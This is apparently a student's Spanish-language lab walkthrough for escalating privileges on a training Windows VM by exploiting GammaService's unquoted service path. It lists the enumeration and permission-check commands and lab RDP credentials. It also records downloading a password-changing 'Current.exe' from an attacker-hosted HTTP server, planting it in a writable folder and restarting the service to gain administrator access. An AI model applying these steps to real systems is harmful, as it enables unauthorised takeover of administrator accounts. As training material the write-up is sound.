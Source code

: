 # Walk: Windows Privilege Escalation - Unquoted Service Paths - VM #1

## Fecha: 09/03/2025
## Host: Windows
## IP: 192.168.105.220
## Objetivo
Follow the steps from this section on _CLIENTWK220_ (VM #1) to exploit the unquoted service path of _GammaService_. Obtain code execution, an interactive shell, or access to the GUI as an administrative user and find the flag on the desktop of _daveadmin_.
## Herramientas
1. wmic
2. icacls
3. runas
## Procedimiento y comandos
#### Paso 1: Enumeramos servicios con rutas que tengan espacios sin comillas
1. Nos conectamos por _rdp_ al usuario _steve_
`xfreerdp /u:"steve" /p:"securityIsNotAnOption++++++" /v:192.168.105.220 /dynamic-resolution +clipboard /cert:ignore`
2. Buscamos con wmic: `wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """`
```
C:\Users\steve>wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
Name                                       PathName
GammaService                               C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
LSM
mysql                                      C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
NetSetupSvc
```
>La salida de este comando solo incluye los servicios que son potencialmente vulnerables a nuestro vector de ataque, como GammaService

#### Paso 2: Comprobamos nuestros permisos
1. Utilizamos **Start-Service** y **Stop-Service**
```
PS C:\Users\steve> Start-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...
PS C:\Users\steve> Stop-Service GammaService
PS C:\Users\steve>
```
>Como podemos ver Steve tiene permisos para iniciar y detener GammaService
#### Paso 3: Repasamos posibles rutas para GammaService
```
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```
#### Paso 4: Verifiquemos nuestros derechos de acceso en estas rutas
1. Revisamos las dos primeras rutas con `icacls `
```
PS C:\Users\steve> icacls "C:\"
C:\ BUILTIN\Administrators:(OI)(CI)(F)
    NT AUTHORITY\SYSTEM:(OI)(CI)(F)
    BUILTIN\Users:(OI)(CI)(RX)
    NT AUTHORITY\Authenticated Users:(OI)(CI)(IO)(M)
    NT AUTHORITY\Authenticated Users:(AD)
    Mandatory Label\High Mandatory Level:(OI)(NP)(IO)(NW)
    
Successfully processed 1 files; Failed processing 0 files
    
PS C:\Users\steve>icacls "C:\Program Files"
C:\Program Files NT SERVICE\TrustedInstaller:(F)
                 NT SERVICE\TrustedInstaller:(CI)(IO)(F)
                 NT AUTHORITY\SYSTEM:(M)
                 NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
                 BUILTIN\Administrators:(M)
                 BUILTIN\Administrators:(OI)(CI)(IO)(F)
                 BUILTIN\Users:(RX)
                 BUILTIN\Users:(OI)(CI)(IO)(GR,GE)
                 CREATOR OWNER:(OI)(CI)(IO)(F)
...

Successfully processed 1 files; Failed processing 0 files
```
> **_steve_** no tiene permisos en estas dos primeras rutas

2. Verificamos las restantes:
```
PS C:\Users\steve> icacls "C:\Program Files\Enterprise Apps"
C:\Program Files\Enterprise Apps NT SERVICE\TrustedInstaller:(CI)(F)
                                 NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                 BUILTIN\Administrators:(OI)(CI)(F)
                                 BUILTIN\Users:(OI)(CI)(RX,W)
                                 CREATOR OWNER:(OI)(CI)(IO)(F)
                                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(RX)
                                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
```
>Como podemos ver BUILTIN\Users tiene permisos de escritura (w) en la ruta **C:\Program Files\Enterprise Apps**. Nuestro objetivo ahora es colocar un archivo malicioso llamado **Current.exe** en **C:\Program Files\Enterprise Apps\\**

#### Paso 5:Obtenemos el flag
> Reutilizamos el archivo anterior que cambie el password del usuario, en este caso _daveadmin_
1. Servimos con python el archvio y lo obtenemos desde _steve_
   - `python3 -m http.server 80`
   - ` iwr -uri http://192.168.45.198/Current.exe -Outfile Current.exe` 
 2. Copiamos el _.exe_ en la ruta vulnerable:
 ` copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'`
 3. Ejecutamos el servicio: `Start-Service GammaService`

> Obteneos un error, pero no nos afecta, ya que al ejecutar **runas** como _daveadmin_ obtenemos acceso
```
Start-Service : Service 'GammaService (GammaService)' cannot be started due to the following error: Cannot start
service GammaService on computer '.'.
At line:1 char:1
+ Start-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Start-Service],
   ServiceCommandException
    + FullyQualifiedErrorId : CouldNotStartService,Microsoft.PowerShell.Commands.StartServiceCommand
```
4. Buscamos el flag:
```
C:\Users\daveadmin\Desktop>type flag.txt
OS{7d111***************************c812}
```

